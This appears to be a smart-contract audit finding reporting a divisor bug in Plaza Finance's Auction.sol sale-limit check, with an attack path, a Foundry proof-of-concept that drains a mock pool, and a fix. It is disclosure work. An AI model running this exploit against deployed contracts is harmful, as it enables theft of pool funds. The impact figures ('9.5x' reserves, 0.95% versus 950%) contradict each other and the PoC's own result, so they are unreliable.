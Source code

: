 Rhythmic Golden Frog

High

# Attacker will drain pool reserves due to incorrect `poolSaleLimit` check, affecting all pool participants

### Summary

The incorrect division by `100` (instead of `100000`) in `Auction.sol` will cause complete reserve depletion for the pool as attackers can make auctions succeed beyond protocol safety limits

### Root Cause

In [Auction.sol:341](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341), the `poolSaleLimit` calculation incorrectly divides by `100` instead of `100000`. The `poolSaleLimit` parameter is explicitly documented as using 3 decimal precision (e.g., 95000 = 95.000%, line 91: [`"@param _poolSaleLimit The percentage threshold auctions should respect when selling reserves (e.g. 95000 = 95%)"`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L91)), but the division by `100` instead of `100000` (line 341: `totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100`) miscalculates the limit by a factor of `1000`. For example, a `poolSaleLimit` of `95000` (intended `95.000%`) becomes `95000 / 100 = 950%`, allowing auctions to sell up to `9.5x` the pool’s reserves.

### Internal Pre-conditions

1. Auction must be configured with `poolSaleLimit` > 0 (e.g., 95000 for 95% limit)  
2. Auction reaches `totalSellReserveAmount` ≥ 0.95% of pool reserves *(due to division error)* instead of the intended 95% limit  

### External Pre-conditions

None - the vulnerability is unconditionally exploitable in any auction with `poolSaleLimit` configured.

### Attack Path

1. **Attacker monitors newly created auctions** with non-zero `poolSaleLimit`  
2. **Attacker places bids** to push `totalSellReserveAmount` beyond the *intended* pool limit (but within erroneous 950% limit)  
3. **Attacker calls `endAuction()`** when `block.timestamp >= endTime`  
4. **Auction wrongly transitions to `SUCCEEDED` state** due to incorrect limit check  
5. **Attacker claims reserves** through `claimBid()` using their accepted bids  

### Impact

**The pool suffers 95-950% loss of its reserves depending on configured `poolSaleLimit`**. For `poolSaleLimit=95000`, attackers can drain **9.5x** the pool's reserves. Subsequent users will find the pool insolvent.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/Auction.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}
    
    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

contract MockPool {
    IERC20 public reserveToken;
    
    constructor(address _reserveToken) {
        reserveToken = IERC20(_reserveToken);
    }
    
    function transferReserveToAuction(uint256 amount) external {
        reserveToken.transfer(msg.sender, amount);
    }
}

contract ExploitTest is Test {
    Auction auction;
    MockERC20 buyToken;
    MockERC20 sellToken;
    MockPool pool;
    address attacker = address(0xbad);

    uint256 constant POOL_BALANCE = 100 ether;
    uint256 constant POOL_SALE_LIMIT = 95000;

    function setUp() public {
        // Deploy tokens
        buyToken = new MockERC20("Buy Token", "BUY");
        sellToken = new MockERC20("Sell Token", "SELL");
        
        // Deploy and fund pool
        pool = new MockPool(address(sellToken));
        sellToken.mint(address(pool), POOL_BALANCE);

        // Deploy Auction implementation
        Auction auctionImpl = new Auction();
        
        // Initialize proxy with dummy parameters
        bytes memory initData = abi.encodeWithSelector(
            Auction.initialize.selector,
            address(buyToken),
            address(sellToken),
            1 ether,
            block.timestamp + 1 days,
            100,
            address(0),
            POOL_SALE_LIMIT
        );
        
        // Deploy proxy
        ERC1967Proxy proxy = new ERC1967Proxy(address(auctionImpl), initData);
        auction = Auction(address(proxy));

        // Overwrite pool address in storage slot 0
        vm.store(
            address(auction),
            bytes32(uint256(0)),
            bytes32(uint256(uint160(address(pool))))
        );
    }

    function test_pool_drain() public {
        // 1. Attacker prepares bid
        uint256 maliciousBid = 95 ether;
        buyToken.mint(attacker, 1 ether);

        // 2. Place exploit bid
        vm.startPrank(attacker);
        buyToken.approve(address(auction), 1 ether);
        auction.bid(maliciousBid, 1 ether);
        vm.stopPrank();

        // 3. Fast-forward to auction end
        vm.warp(block.timestamp + 2 days);

        // 4. End auction (incorrectly succeeds)
        auction.endAuction();
        
        // 5. Attacker claims drained funds
        uint256 initialPoolBalance = sellToken.balanceOf(address(pool));
        vm.prank(attacker);
        auction.claimBid(1);

        // Verify pool drain (950% of intended limit)
        assertEq(
            sellToken.balanceOf(attacker),
            95 ether,
            "Attacker didn't receive funds"
        );
        assertEq(
            sellToken.balanceOf(address(pool)),
            POOL_BALANCE - 95 ether,
            "Pool reserves not drained"
        );
    }
}
```

### Mitigation

In Auction.sol, replace division by 100 with 100000:

Before (vulnerable):
```solidity
(IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100
```

After (fixed):
```solidity
(IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100000
```
